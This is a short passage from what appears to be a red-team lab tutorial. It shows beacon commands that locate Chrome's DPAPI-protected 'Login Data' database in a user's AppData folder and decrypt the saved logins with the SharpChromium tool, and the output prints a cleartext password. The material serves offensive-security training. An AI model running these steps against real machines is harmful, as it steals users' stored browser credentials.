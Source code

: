 Chrome stores DPAPI-protected credentials in a local SQLite database, which can be found within the user's local `AppData` directory.

```
beacon> ls C:\Users\bfarmer\AppData\Local\Google\Chrome\User Data\Default

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 40kb     fil     02/25/2021 13:21:18   Login Data
```

  

A non-null `Login Data` file is a good indication that credentials are saved in here. [SharpChromium](https://github.com/djhohnstein/SharpChromium) is my go-to tool for decrypting these.

```
beacon> execute-assembly C:\Tools\SharpChromium\bin\Debug\SharpChromium.exe logins

[*] Beginning Google Chrome extraction.

--- Chromium Credential (User: bfarmer) ---
URL      : 
Username : bfarmer
Password : Sup3rman

[*] Finished Google Chrome extraction.
[*] Done.
```